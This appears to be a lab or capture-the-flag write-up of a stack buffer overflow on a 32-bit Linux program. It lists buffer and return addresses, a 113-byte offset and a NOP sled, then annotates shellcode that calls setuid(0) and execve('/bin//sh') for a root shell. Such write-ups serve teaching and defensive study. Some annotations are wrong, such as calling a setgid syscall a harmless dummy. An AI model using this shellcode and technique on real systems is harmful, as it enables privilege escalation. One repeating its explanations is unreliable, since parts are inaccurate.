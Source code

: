 # Buffer starting address

In GDB: 0xffffd05b 
Outside GDB: 0xffffd01b

# Buffer offset

Buffer is located at: `ebp - 0x6d`
Return address is at: `ebp + 0x4`

So,

Buffer offset from frame pointer = 0x6d = 109 bytes

Buffer offset to return address = 113 bytes

# Return address

Return Address = 0xffffd0d0

Found via exp-shellcode.py

# First assembly instruction at return address

this will be the nop instruction due to the nop sled that appears at the start of the injected code.

# Shell code explanation

add $0x18, %esp:  
Adjusts the stack pointer by 24 bytes — stack cleanup/alignment.

xor %eax, %eax:  
Sets eax to 0.

xor %ebx, %ebx:  
Sets ebx to 0.

mov $0x6, %al:  
Sets syscall number to 6 (`close` syscall).

int $0x80:  
Calls `close(0)` — closes stdin.

push %ebx:  
Pushes NULL onto stack.

push $0x7974742f:  
Pushes `/tty` string.

push $0x7665642f:  
Pushes `/dev` string.

mov %esp, %ebx:  
Sets ebx to point to `/dev/tty`.

xor %ecx, %ecx:  
Clears ecx.

mov $0x2712, %cx:  
Sets file mode in cx (O_RDWR).

mov $0x5, %al:  
Syscall number for `open`.

int $0x80:  
Calls `open("/dev/tty", O_RDWR)`.

push $0x17:  
Pushes syscall number 23 (`setuid`).

pop %eax:  
Sets eax to 23.

xor %ebx, %ebx:  
Sets uid = 0 (root).

int $0x80:  
Calls `setuid(0)` to become root.

push $0x2e:  
Pushes dummy value, ignored or used for alignment.

pop %eax:  
Loads dummy into eax — harmless.

push %ebx:  
Pushes NULL again.

int $0x80:  
May be ignored or has no side-effect.

xor %eax, %eax:  
Clears eax.

push %eax:  
Push NULL terminator.

push $0x68732f2f:  
Pushes `//sh` (part of `/bin//sh`).

push $0x6e69622f:  
Pushes `/bin`.

mov %esp, %ebx:  
ebx = pointer to `/bin//sh`.

push %eax:  
Push NULL (argv[1]).

push %ebx:  
Push pointer to "/bin//sh" (argv[0]).

mov %esp, %ecx:  
ecx = argv array.

cltd:  
Clears edx — sets envp to NULL.

mov $0x0b, %al:  
Syscall number 11 = `execve`.

int $0x80:  
Executes `/bin/sh` with root privileges.


